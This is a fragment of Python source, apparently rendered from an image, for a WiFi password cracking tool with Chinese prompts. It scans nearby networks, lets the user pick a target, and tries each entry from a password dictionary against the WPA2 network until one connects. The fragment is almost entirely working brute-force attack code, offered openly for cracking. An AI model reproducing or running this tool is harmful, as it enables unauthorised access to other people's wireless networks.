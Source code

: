 ```plain
    wifi = pywifi.PyWiFi()
    interface = wifi.interfaces()[0]
    wifi_dic_path = input("密码字典路径：")
    with open(wifi_dic_path, 'r') as f:
        flag = False
        for pwd in f:
            pwd = pwd.strip('\n')
            interface.disconnect()
            while interface.status() == 4:
                pass
            profile = pywifi.Profile()
            profile.ssid = wifi_name
            profile.auth = const.AUTH_ALG_OPEN
            profile.akm.append(const.AKM_TYPE_WPA2PSK)
            profile.cipher = const.CIPHER_TYPE_CCMP
            profile.key = pwd
            tmp_profile = interface.add_network_profile(profile)
            interface.connect(tmp_profile)
            start_time = time.time()
            while time.time() - start_time < 1.5:
                if interface.status() == 4:
                    print(f'\rWIFI连接成功！密码为：{pwd}')
                    flag = True
                    break
                else:
                    print(f'\r尝试破解WIFI，当前密码 {pwd} 。', end='')
            interface.remove_network_profile(tmp_profile)
            if flag:
                return


def main():
    exit_flag = 0
    target_num = -1
    while not exit_flag:
        try:
            print('WiFi破解工具'.center(35, '-'))
            wifi_list = wifi_scan()
            choose_exit_flag = 0
            while not choose_exit_flag:
                try:
                    target_num = int(input('请选择你要尝试破解的wifi：'))
                    if target_num in range(len(wifi_list)):
                        # 二次确认
                        while not choose_exit_flag:
                            try:
                                choose = str(input(f'你选择要破解的WiFi名称是：{wifi_list[target_num][1]}，确定吗？（Y/N）'))
                                # 对用户输入进行小写处理，并判断
                                if choose.lower() == 'y':
                                    choose_exit_flag = 1
                                elif choose.lower() == 'n':
                                    break
                                # 处理用户其它字母输入
                                else:
                                    pass
                            except ValueError:
                                pass
                        if choose_exit_flag == 1:
                            break
                        else:
                            pass
                except ValueError:
```